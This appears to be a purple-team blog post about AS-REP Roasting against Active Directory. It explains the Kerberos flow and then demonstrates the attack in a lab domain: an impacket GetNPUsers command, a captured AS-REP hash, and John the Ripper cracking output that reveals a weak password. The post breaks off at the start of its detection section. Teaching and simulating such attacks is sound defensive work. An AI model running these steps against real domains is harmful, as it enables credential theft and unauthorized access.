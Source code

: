 ```yaml
---
title: AS-REP Roasting - MITRE ATT&CK T1558.004
date: 2025-04-27 13:00:00 
categories: [Purple Team,Active Directory & Kerberos Abuse]
tags: [active directory,asrep roasting,hashcat]     # TAG names should always be lowercase
comments: true
image:
  path: /.
---
```

Hello everyone, thank you for being here. In this blog post, I will demonstrate and simulate a very interesting Active Directory and Kerberos abuse attack: the **AS-REP Roasting** attack. So, let's get started!
## What is Kerberos ?
Kerberos is a network authentication protocol designed to provide strong authentication for client-server applications using ticket-based cryptography. Developed by MIT, it is the default authentication mechanism in Microsoft Active Directory (AD) environments.
### Kerberos components :
Kerberos authentication involves three main components:

- **Key Distribution Center (KDC)** – The central authority that issues tickets, the KDC has two main components :
  - **Authentication Service (AS)** – Verifies user identity and issues Ticket-Granting Tickets (TGTs).
  - **Ticket-Granting Service (TGS)** – Grants service tickets for accessing resources.

- **Client** – The user or service requesting access.

- **Service Server** – The resource the client wants to access (e.g., a file share, SQL server).
### The Kerberos Authentication Flow (simplified) :

1. **AS-REQ** (Authentication Service Request) : – The client requests a TGT from the AS.

2. **AS-REP** (Authentication Service Reply) : – If pre-authentication is enabled, the AS verifies the user’s credentials and sends an encrypted TGT.

3. **TGS-REQ** (Ticket-Granting Service Request) : – The client sends the TGT to the TGS to request a service ticket.

4. **TGS-REP** (Ticket-Granting Service Reply) : – The TGS issues a service ticket for the requested resource.

5. **AP-REQ** (Application Request) : – The client presents the service ticket to the target server.

6. **AP-REP** (Application Reply) : – The server grants access.

this image below represents the kerberos flaw, as stated before :

![screen_1](/./media/post5/krbmsg.gif)

## AS_REP Roasting :
**AS-REP Roasting** exploits a weakness in Kerberos when **pre-authentication** is disabled for a user account. Without pre-authentication, an attacker can request a TGT (no password aka anyone can) for the user and receive an encrypted AS-REP message, which can be cracked offline to reveal the user’s password. Luckily in **Kerberos v5** the preauth is enabled by default and you have to manually disable it, the only reason i think sys admin would disble it is for backward compatibility with Kerberos v4 libraries that might be used by some legacy applications,those account by default do not require a password.
## Lab Simulation: AS-REP Roasting Attack Demonstration :
In this practical demonstration, we'll simulate an **AS-REP Roasting** attack in our test environment and identify **key Indicators of Compromise (IOCs)** that would alert defenders to such malicious activity.

**Lab Environment Details:**

- Target Domain: **b2hu.local**

- Vulnerable Account: **jdoe@b2hu.local** (pre-authentication disabled)

- Alternative Format: **b2hu/jdoe**
the **jdoe** user properties must be set up with preauth disabled just as follows : 
![screen_2](/./media/post5/jdoe_prop.png)

### Attacking the DC
for the asrep abuse we'll use the impacket script **GetNPUsers.py** script :
```shell
impacket-GetNPUsers -no-pass b2hu.local/jdoe -dc-ip 10.120.116.9
```
after execuring this command we'll get the tgt encrypted wiht the user jdoe password's hash, just as follows :
```shell
$krb5asrep$23$jdoe@B2HU.LOCAL:653ff5ebc4ad4664ca981a81d99e5d25$230752522416c1b67374660dbe8adbf5676915d8ecf69c2b2b8907857752d022a43d7cb7b5d86466c8298052ca13fb73691beee998ff6b24adfa1e9e0e0d7849b6b5b50ed9e82a40a1aec478f860ab251a910db20538503dd112acf3ed6615d499db123454a494bbc0d6e68aa920e9242ed3816f4ae3869736f9a2a018d7f3a131e8e89badbe5d7f78378a82c1cd709892c3ae53c42c1b09ff22df294900a937db02cf02d9d4cda4614bbaef163f2b9683ec205978af08111ac5b891e2c8cebf10f63964ea53bac74643fd4b9ae67df13715d93799266caa919fe567c42e52a086b5f5a4eadc372f
```
now we can move to offline cracking, we can use tools like hashcat or JTR (john the ripper), for this demo i'll user JTP with rockyou.txt password list, the command is like this : 
```shell
john --wordlist=/usr/share/wordlists/rockyou.txt tgt.txt 
```
after a while (depending on the domain password policy), we can get this output :
```shell
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Password123      ($krb5asrep$23$jdoe@B2HU.LOCAL)     
1g 0:00:00:00 DONE (2025-04-28 23:28) 6.250g/s 211200p/s 211200c/s 211200C/s katten..redlips
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
as we can see the password of the **b2hu/jdoe** user is **Password123** 
and just like that the attacker has now a foothold in your domaina and can perfom even more enumeration to find weakspots.

### Detecting & respond the Attack

while requesting the tgt ticket the windows event log, 


